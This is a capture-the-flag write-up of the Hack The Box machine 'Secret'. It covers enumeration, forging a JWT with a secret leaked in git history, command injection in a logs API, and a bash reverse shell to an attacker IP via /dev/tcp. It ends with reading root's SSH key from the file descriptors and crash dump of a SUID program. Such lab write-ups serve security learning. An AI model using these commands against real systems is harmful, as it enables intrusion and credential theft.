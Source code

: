 ```yaml
---
title: htb secret
author: Yuchao
date: 2021-10-30 00:00:00 +0000
categories: [sec]
tags: [htb, 0xdf, ippsec, express, nodejs, python, pyjwt, dotenv, jwt, nmap, feroxbuster, curl, git, privesc, c, coredump]
mermaid: true
---
```


## nmap
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.120
nmap -p 22,80,3000 -sCV -oA scans/nmap-tcpscripts 10.10.11.120
```

## See 80, 3000 port run the same thing:
1. maybe 80 is a reverse proxy of 3000.
2. maybe one developer version, one production version.
3. some misconfiguration

## Directory discovery
```bash
feroxbuster -u http://10.10.11.120
```

## use API by document
```bash
# /api/user/register
curl -d '{"name":"0xdf0xdf","email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/register -H 'Content-Type: Application/json'
# /api/user/login
curl -d '{"email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/login -H 'Content-Type: Application/json'
```
- -d data
- -X method
- -H header
- It supports these protocols: DICT, FILE, FTP, FTPS, GOPHER, GOPHERS, HTTP, HTTPS, IMAP, IMAPS, LDAP,  LDAPS,  MQTT,  POP3,  POP3S, RTMP,  RTMPS,  RTSP, SCP, SFTP, SMB, SMBS, SMTP, SMTPS, TELNET or TFTP.
- after the request, got a JWT.

## nginx
- port 80 is same with port 3000. 3000 does not have NGINX.
- suspect NGINX is just there to proxy for Express.

## analysis the source
- nodejs express application

#### find Token generation
``` javascript
// Dotenv loads environment variables from a .env file into process.env
const dotenv = require('dotenv')
dotenv.config();
```
{: .nolineno file="index.js" }

``` javascript
// create jwt
const jwt = require("jsonwebtoken");
const token = jwt.sign({ _id: user.id, name: user.name , email: user.email}, process.env.TOKEN_SECRET )
res.header('auth-token', token).send(token);
const verified = jwt.verify(token, process.env.TOKEN_SECRET);
```
{: .nolineno file="/routes/auth.js" }

#### find git information
```bash
git log --oneline
git show 67d8da7
```
get the TOKEN_SECRET from git old version

#### find some api need "admin"`s token
- like ``` /api/priv ``` and ``` /api/logs ```

## Forge JWT
#### decode
``` pip3 install pyjwt ```
``` python
import jwt
token='eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoiMHhkZjB4ZGYiLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.rMfMsdYkfSbl4hr1RJFwY3qWfrA3LSWVlzUON_9EW_A'
secret='gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'
# decode
jwt.decode(token, secret, algorithms=["HS256"])
# result-> {'_id': '617825332c2bab0445c48462', 'name': '0xdf0xdf', 'email': 'dfdfdfdf@secret.com', 'iat': 1635263828}
```
#### Create Token
```python
j = jwt.decode(token, secret, algorithms=["HS256"])
j['name'] = 'theadmin'
jwt.encode(j, secret, algorithm="HS256")
# result-> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8
```

#### try to use
```bash
curl -s 'http://10.10.11.120/api/priv' -H "auth-token: {token}" | jq .
```

## Command Injection
```javascript
if (name == 'theadmin'){
    const getLogs = `git log --oneline ${file}`;
    exec(getLogs, (err , output) =>{
```
try to manituplate to -> ``` git log --oneline; [any command] ```
``` curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.6' -H "auth-token: {token}" | jq -r . ```
attacker machine -> ``` sudo tcpdump -ni tun0 icmp ```

Force to use G (Get) method.
- -d,  --data,  --data-binary  or --data-urlencode to be used in an HTTP GET request instead of the POST request.
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode 'file=/dev/null;id' \
-H "auth-token: {token}" \
| jq -r .
```

#### reverse shell
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" \
-H "auth-token: {token}" \
| jq -r .
```

attacker`s machine: ```  nc -lnvp 443 ```

## privesc

#### get information from coredump.

an suid program
```c
filecount(path, summary);
// source code of "count" program
// drop privs to limit file write
setuid(getuid());
// Enable coredump generation
prctl(PR_SET_DUMPABLE, 1);
printf("Save results a file? [y/N]: ");
res = getchar();
```
{file="code.c" }

- ```  ps auxww | grep count ``` find pid of the program
- background the program at getchar()
- find file handler in ``` /proc/[pid]/fd ```
- find "/root/.viminfo" as input file path can be readable
- as we can not access "/root", we can not ``` cat /root/.viminfo ```
- but we can read .viminfo from file handler
- We can get the SSH key from it.

#### another way, from Crash Dump

- Because Enabled coredump generation
- When a program crashes, the system stores the crash dump files in ``` /var/crash ```
- input ``` /root/.ssh/id_rsa ``` as path input
- ```  kill -l ``` list kill signals
- ```  kill -SIGSEGV {pid} ``` send a segmentation fault
- ``` /var/crash$ apport-unpack _opt_count.1000.crash /tmp/0xdf ``` decompress the dump into a given directory
- ``` strings -n 30 CoreDump ```
- then get the SSH key from it.

